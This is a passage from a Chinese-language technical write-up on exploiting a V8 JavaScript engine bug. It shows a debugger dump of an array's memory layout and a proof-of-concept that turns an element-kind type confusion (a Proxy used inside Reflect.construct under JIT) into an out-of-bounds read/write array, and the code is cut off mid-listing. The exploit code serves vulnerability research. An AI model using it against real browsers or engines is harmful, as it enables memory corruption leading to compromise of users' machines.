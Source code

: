 现在我们查看一下转化后的数组内存布局：

```
DebugPrint: 0000039208085F41: [JSArray]
 - map: 0x039208241909 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x039208208dcd <JSArray[0]>
 - elements: 0x03920808617d <FixedArray[9]> [HOLEY_ELEMENTS]
 - length: 8
 - properties: 0x0392080406e9 <FixedArray[0]> {
    #length: 0x039208180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x03920808617d <FixedArray[9]> {
           0: 0x039208086161 <Object map = 00000392082402D9>
         1-5: 0x039208040385 <the_hole>
           6: 0x0392080861b5 <HeapNumber 1.04326e-309>
           7: 0x0392080861a9 <HeapNumber 1.04326e-309>
           8: 0x039208040385 <the_hole>
 }

0:000> dd 0x03920808617d-1 L50
00000392`0808617c  080404b1 00000012 08086161 08040385
00000392`0808618c  08040385 08040385 08040385 08040385
00000392`0808619c  080861b5 080861a9 08040385 0804035d
00000392`080861ac  00000000 00018018 0804035d 00000000
00000392`080861bc  00018018 08040a3d 00000002 9999999a
00000392`080861cc  3ff19999 08241891 080406e9 080861c1
00000392`080861dc  00000002                             // 只要能覆盖length，就可以达成目的


```

目标已经出现了，但是根据我们刚刚调试的出来的结果（`push`会修改`[elements+8*16]`的值），修改`map`和`properties`并没什么用。如果我们能够修改`length`，就能获得任意长度的`Double`数组，这才是我们想要的，可以通过修改`vuln_array`的参数数量来达到目的。通过调试可以确定`vuln_array`数组的参数个数为`15`的时候`push`的值的低`32`位正好能覆盖到`length`，下面是最终版本的`poc`：

```
// 从类型混淆到越界读写

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];  // 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

function hex(a) {
    return a.toString(16);
}
function empty() {}
function f(p) {
    // 2.42902434121390450978968281326E-319 == 0xC00C
    vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    %DebugPrint(vuln_array);
    %SystemBreak();
}

let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {}; // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];  // 修改此数组的length来达到oob
        // %DebugPrint(vuln_array);
        // %SystemBreak();
        return Object.prototype;
    }
```